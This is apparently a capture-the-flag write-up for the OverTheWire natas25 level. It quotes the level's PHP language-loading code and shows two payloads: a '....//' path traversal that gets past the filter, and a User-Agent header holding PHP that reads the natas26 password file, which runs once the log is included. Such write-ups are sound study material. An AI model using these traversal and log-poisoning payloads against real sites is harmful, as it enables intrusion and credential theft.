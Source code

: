 # local file inclusion and  remote code execution
	so turns out there is 2 differner files for 2 different languages and the default one is the englisg file.
	so when we choose a language one of the 2 files is set.
	The following code is used.

function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))  // we can directory traverse
                return 1;
        safeinclude("language/en"); 
    }
    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){               // but "../"" is filtered out
            logRequest("Directory traversal attempt! fixing request.");   // we can outsmart this; use "....//"; so "../" will be filtered out but "../" remains
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){            // still we cannot access /etc/natas_webpass/natas26
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...
        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
but take a look at this code:
logRequest("Directory traversal attempt! fixing request.");  // if any filtering actions occour, it is logged in a file
function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";    // date time is written to the log file
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];   // this is interesting; clients "user-agent" is also logged; with python requests we can supply our custom user-agent
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
params = {"lang": "....//....//....//....//....//path_to_the_log_file"}
so when filtering, our user agent is logged
what if we change out user agent with php code
headers = {"User-Agent": "<?php echo exec('cat /etc/natas_webpass/natas26'); ?>"}
so we get the contents of the log file which actually contains the php code to print the password for the next level
